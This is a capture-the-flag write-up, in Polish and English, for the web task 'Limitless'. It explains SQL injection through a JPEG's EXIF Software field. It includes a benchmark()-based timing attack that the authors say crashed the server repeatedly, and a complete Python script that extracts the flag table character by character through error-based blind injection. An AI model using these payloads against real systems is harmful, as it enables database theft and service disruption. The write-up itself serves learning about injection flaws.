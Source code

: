﻿## Limitless (web, 200p)

### PL

[ENG](#eng-version)

W zadaniu dostajemy link do webowego uploadera plików, oraz informacje, że mamy wyciągnąć jakieś informacje z tabeli `flag`.
Analiza uploadera oraz jego działania pozwala zauważyć, że uploader po załadowaniu pliku pobiera z niego dane `exif` a następnie na podstawie pola `exif.primary.Software` wyszukuje w bazie danych oraz wyświetla zdjęcia utworzone tym samym oprogramowaniem.

Zastosowaliśmy więc technikę `SQL Injection` poprzez pole exif, za pomocą skryptu:

```python
    img = pexif.JpegFile.fromFile("file.jpg")
    img.exif.primary.Software = '"&&' + sql + '#'
    img.writeFile('file.jpg')
```

Który dopisywał nasze zapytanie do pliku i przygotowywał je do wykonania. Zapytanie trafiało do klauzuli `where` zaraz za porównaniem ze stringiem. Niestety mieliśmy twarde ograniczenie wynoszące 50 znaków dla tego pola exif, co mocno ograniczało nasze możliwości.
Dodatkowo wykluczona była operacja union a tabela z której dokonywano selekcji miała 0 rekordów.

W związku z tym postanowiliśmy wykorzystać atak `remote timing` na bazę danych wraz z testowaniem pojedyńczych znaków jedynego elementu tabeli flags (gdzie spodziewaliśmy się flagi) - wykorzystać operator AND w wersji short-circuit i jeśli porównanie symbolu było niepoprawne wykonywaliśmy długo liczący się kod (sleep nie był dostępny). Z racji małej liczby znaków nie mogliśmy użyć funkcji `substring` ani `mid`, musieliśmy opierać się o przesuwające się okno ze znamym fragmentem flagi. Kod sql to:

```sql
benchmark(~-((select*from flag)like'%" + window + "%'),1)
```

Funkcja benchmark wykonuje podany kod tyle razy ile wynosi pierwszy argument. W naszym przypadku wartość boolean jest zamieniana na liczbę za pomocą unarnego minusa a następnie bity są negowane. Problem z tym rozwiązaniem polegał na tym, że taki benchmark wykonuje się bardzo (!) długo a w naszym kodzie uruchamiamy go dla każdego nie pasującego symbolu, więc dla każdego zgadywanego znaku pesymistycznie prawie 40 razy.

Skutek był taki, że położyliśmy serwer 5 razy uzyskując raptem 2/3 flagi a organizatorzy postanowili zablokować funkcję benchmark.

Nasze drugie podejście wykorzystało inny sposób - logowanie błędów mysql. Użyliśmy zapytania:

```sql
rlike(if(mid((select*from flag),"+CHARACTER_INDEX+",1)='"+CHARACTER+"','',1))
```

Dzięki czemu w zależności od spełnienia warunku skrypt wykonywał się poprawnie lub zgłaszał błąd składniowy.
Cały skrypt odzyskujący flagę:

```python
import pexif, subprocess

​def execute_sql(sql):
    img = pexif.JpegFile.fromFile("/var/www/html/img.jpg")
    img.exif.primary.Software = '"' + sql + '#'
    img.writeFile('/var/www/html/imgdest.jpg')
	return subprocess.check_output('curl -s -F submit=1 -F file=@/var/www/html/imgdest.jpg http://10.13.37.3', shell=True)

for i in range(1, 999):
    for c in (range(48, 58) + range(65, 91) + range(97, 126)):
        if 'expression' in execute_sql("rlike(if(mid((select*from flag),"+str(i)+",1)='"+chr(c)+"','',1))"):
            print chr(c),
            break
```

A jego wynik:

`DCTF{09D5D8300A7ADC45C5D434BB467F2A85}`

### ENG version

In the task we get a link to a web file upoloader and an information that we need to extract some data from `flag` table.
Analysis of the uploader and its behaviour reveals that the uploader, after loading the file, collected `exif` data and then based on `exif.primary.Software` finds and displays other pictures made with the same software.

We used `SQL Injection` via exif field using script:

```python
    img = pexif.JpegFile.fromFile("file.jpg")
    img.exif.primary.Software = '"&&' + sql + '#'
    img.writeFile('file.jpg')
```

This script was adding the query to the file and preparing it for execution. The query was then placed in `where` clause, right after the comparison with a string. Unfortunately we hade a hard limit of 50 characters for the query, which was a strong limiting factor. On top of that it was impossible to use `union` and the table on which the selection was executed had 0 rows.

Therefore we decided to use `remote timing` attack on the database with testing single character of the sole element of flags table (where we expected to find the flag) - using short-circuit AND operator and if the condition was not matching we were executing a long running task (sleep was unavailable). Since the characters number limitation we could not use `substring` or `mid` functions and we had to relay on a moving window with known flag prefix/suffix. The SQL code was:

```sql
benchmark(~-((select*from flag)like'%" + window + "%'),1)
```

Benchmark function executes given code as many times as stated in the first argunent. In our case boolean is converted to int via unary minus and then bits are negated. The problem was that this benchmark executes really long (!) and in our code we we run it for every non matching symbol, so for any guessed character we might use almost 40 of those processes.

As a result we crashed the server 5 times and still got only 2/3 of the flag and organisers finally decided to block benchmark function.

Our second attempt was using a different approach - exploiting errors in mysql. We used:

```sql
rlike(if(mid((select*from flag),"+CHARACTER_INDEX+",1)='"+CHARACTER+"','',1))
```

And therefore the script would execute normally or crash with a syntax error, depending on the condition value.
Whole script for extracting the flag:

```python
import pexif, subprocess

​def execute_sql(sql):
    img = pexif.JpegFile.fromFile("/var/www/html/img.jpg")
    img.exif.primary.Software = '"' + sql + '#'
    img.writeFile('/var/www/html/imgdest.jpg')
	return subprocess.check_output('curl -s -F submit=1 -F file=@/var/www/html/imgdest.jpg http://10.13.37.3', shell=True)

for i in range(1, 999):
    for c in (range(48, 58) + range(65, 91) + range(97, 126)):
        if 'expression' in execute_sql("rlike(if(mid((select*from flag),"+str(i)+",1)='"+chr(c)+"','',1))"):
            print chr(c),
            break
```

And the result.

`DCTF{09D5D8300A7ADC45C5D434BB467F2A85}`